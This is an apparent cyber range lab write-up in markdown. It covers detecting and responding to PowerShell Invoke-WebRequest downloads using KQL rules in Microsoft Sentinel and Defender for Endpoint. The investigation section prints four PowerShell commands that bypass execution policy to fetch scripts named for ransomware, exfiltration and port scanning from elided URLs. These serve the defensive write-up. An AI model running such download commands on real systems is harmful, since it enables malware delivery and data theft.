

## 🔐 Incident Response Lab: PowerShell Suspicious Web Request

**Author**: Jason Nguyen  
**Date**: 19 June 2025

**Tools, Technologies & Frameworks Used**:
- Microsoft Sentinel
- Microsoft Defender for Endpoint (MDE)
- Azure Log Analytics Workspace (LAW)
- Azure Virtual Machine (windows-target-1)
- KQL (Kusto Query Language)
- MITRE ATT&CK
- GitHub (Markdown Reporting)
- NIST 800-61 Framework

---

### 📘 Summary

This incident response exercise simulates detection and investigation of a suspicious PowerShell command used to download multiple scripts from the internet using `Invoke-WebRequest`. Such activity often indicates post-exploitation behavior by attackers, such as downloading malware or establishing persistence. I built a custom detection rule in Microsoft Sentinel, triggered an incident, and walked through the response lifecycle using real-world techniques aligned with [NIST 800-61](https://csrc.nist.gov/publications/detail/sp/800-61/rev-2/final).

---

### 🧠 Objectives

* Detect potentially malicious PowerShell web requests using KQL.
* Investigate the source and impact of script downloads on a target VM.
* Simulate response and containment actions in MDE.
* Document incident handling steps aligned to NIST 800-61.

---

### 🔎 Detection Logic (KQL)

```kql
let TargetHostname = "windows-target-1"; 
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated
````

This query looks for instances of PowerShell (`powershell.exe`) being used to run `Invoke-WebRequest`, indicating an attempt to download content from an external server.

---

### ⚙️ Alert Rule Configuration

* **Rule Name**: PowerShell Suspicious Web Request
* **Trigger Type**: Scheduled Analytics Rule
* **Query Schedule**: Every 4 hours
* **Lookback Period**: Last 14 days
* **Alert Threshold**: Greater than 0
* **Entity Mappings**:

  * Account → Name → `AccountName`
  * Host → HostName → `DeviceName`
  * Process → CommandLine → `ProcessCommandLine`
* **MITRE ATT\&CK Mapping**:

  * T1059.001 – PowerShell
  * T1203 – Exploitation for Client Execution
  * T1071.001 – Web Protocols
  * T1105 – Ingress Tool Transfer
  * T1041 – Exfiltration Over C2 Channel
* **Event Grouping**: All events grouped into a single alert
* **Incident Settings**: Enabled
* **Suppression**: Suppress alerts for 24 hours after trigger
* **Auto-Incident Creation**: Enabled


---

### 🚨 Incident Investigation

**Triggered Incident**:
“J - PowerShell Suspicious Web Request”
**Device**: `windows-target-1`
**User Involved**: One user

During the incident, four separate PowerShell commands were used to download suspicious scripts:

```powershell
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../pwncrypt.ps1 -OutFile C:\programdata\pwncrypt.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../exfiltratedata.ps1 -OutFile C:\programdata\exfiltratedata.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../portscan.ps1 -OutFile C:\programdata\portscan.ps1
powershell.exe -ExecutionPolicy Bypass -Command Invoke-WebRequest -Uri https://.../eicar.ps1 -OutFile C:\programdata\eicar.ps1
```

Upon contacting the user, they stated they were trying to install free software but only saw a black screen. Suspicion arose regarding possible social engineering or misuse of legitimate tools.

**Script Execution Verification**:
Used this query to confirm whether the downloaded scripts were executed:

```kql
let TargetHostname = "windows-target-1"; 
let ScriptNames = dynamic(["eicar.ps1", "exfiltratedata.ps1", "portscan.ps1", "pwncrypt.ps1"]); 
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File" and ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine
```

⚠️ **Result**: All four scripts were executed on the target system.


---

### 🛡️ Response & Containment

* The machine was **isolated** via Microsoft Defender for Endpoint.
* A **full antivirus scan** was performed and returned clean.
* After validation, the machine was **removed from isolation** and restored to standard operation.

---

### 📋 Post-Incident Activities

* The user completed an **immediate cybersecurity awareness training** session.
* Organization upgraded the **KnowBe4 security awareness training** and increased frequency of mandatory sessions for all staff.
* **New PowerShell usage policy** drafted — restricting execution to essential personnel only.
* Posted a comment on Incident Acitivty Log in Sentinel, and closed the incident.



---

### 🧩 Challenges & Takeaways

* KQL query initially returned no results — needed to expand `TimeGenerated` to 30 days.
* Learned the distinction between `InitiatingProcessCommandLine` (parent) vs. `ProcessCommandLine` (child).
* Practiced careful IR documentation, user communication, and validated execution of potential payloads.
* Reinforced understanding of PowerShell abuse in post-exploitation stages.

---

### ✅ Skills Demonstrated

* Threat detection using KQL in Log Analytics
* Incident triage and response in Microsoft Sentinel
* Endpoint investigation and validation using MDE
* NIST 800-61 incident handling lifecycle
* Practical understanding of PowerShell abuse techniques

---

## 📎 Notes

* This lab was completed as part of Josh Madakor’s Cyber Range series.
* Incident response actions simulated in a controlled learning environment.
* All files and URLs used were part of safe, educational scenarios for cybersecurity training.
